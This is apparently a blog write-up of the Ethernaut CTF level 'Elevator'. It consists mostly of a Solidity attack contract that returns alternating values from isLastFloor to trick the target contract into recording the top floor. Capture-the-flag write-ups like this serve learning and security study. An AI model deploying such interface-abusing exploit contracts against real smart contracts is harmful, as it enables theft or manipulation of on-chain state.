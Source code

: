 +++
title = 'Ethernaut Level 11 - Elevator'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'I can tell you whatever I want'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

interface Elevator {
    function goTo(uint256 _floor) external ;
}

contract Win{
   // Implements the Building interface, but returns false and then true
    Elevator target;
    constructor(address _addr) {
        target = Elevator(_addr);
    }

    function win() public  {
        target.goTo(0);
    }

    bool current = false;
    function isLastFloor(uint256 floorNumber) public returns ( bool )  {
        bool result = current ;
        current = !current;
        return result ;
    }
}
```